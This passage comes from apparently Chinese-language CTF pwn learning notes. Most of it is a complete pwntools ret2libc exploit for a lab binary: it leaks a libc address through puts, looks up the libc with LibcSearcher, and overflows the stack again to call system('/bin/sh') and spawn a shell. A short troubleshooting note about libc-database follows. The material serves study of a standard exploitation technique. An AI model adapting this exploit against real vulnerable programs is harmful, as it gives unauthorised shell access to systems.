 

```python
from pwn import *
from LibcSearcher import LibcSearcher

p=process('/home/seveng0/Desktop/pwn/ret2libc3')

ret2libc3=ELF('/home/seveng0/Desktop/pwn/ret2libc3')
puts_plt=ret2libc3.plt['puts'] #获取 puts 函数在 PLT 表中的地址
libc_start_main_got = ret2libc3.got['__libc_start_main'] #获取 __libc_start_main 函数在 GOT 表中的地址
main=ret2libc3.symbols['main'] #获取 main 函数的地址，用于在泄露地址后返回到 main 函数，重新执行程序
#symbols 是 ELF 对象的一个属性，它是一个字典，包含了二进制文件中所有符号（函数、变量等）的名称和地址。

payload=flat([b'a'*112,puts_plt,main,libc_start_main_got])
#puts函数打印获取 __libc_start_main 函数的地址，返回地址为main函数
p.sendlineafter(b'Can you find it !?',payload)

libc_start_main_addr=u32(p.recv()[0:4]) #接收到的数据转为32位整数
libc=LibcSearcher('__libc_start_main',libc_start_main_addr)
#libc.add_condition('puts', puts_addr)
libcbase=libc_start_main_addr-libc.dump('__libc_start_main')
#先执行到这，匹配到多个版本，手动选择1: ubuntu-glibc (id libc6_2.23-0ubuntu11.3_i386)


#计算libc基地址 libcbase = 泄露的函数地址 - 该函数在 libc 中的偏移量
system_addr=libcbase+libc.dump('system') 
#计算 system 函数的真实地址：system_addr = libcbase + libc.dump('system')。
binsh_addr=libcbase+libc.dump('str_bin_sh') #计算字符串 "/bin/sh" 的真实地址

payload=flat([b'a'*104,system_addr,b'b'*4,binsh_addr])

p.sendline(payload)
p.interactive()
```



找不到符合的libc库

![image-20250219002401813](./ctf-wiki-pwn-learning.assets/image-20250219002401813.png)



下载`https://github.com/niklasb/libc-database`的压缩包，解压改名后拖到虚拟机中替换原本的`libc-database`
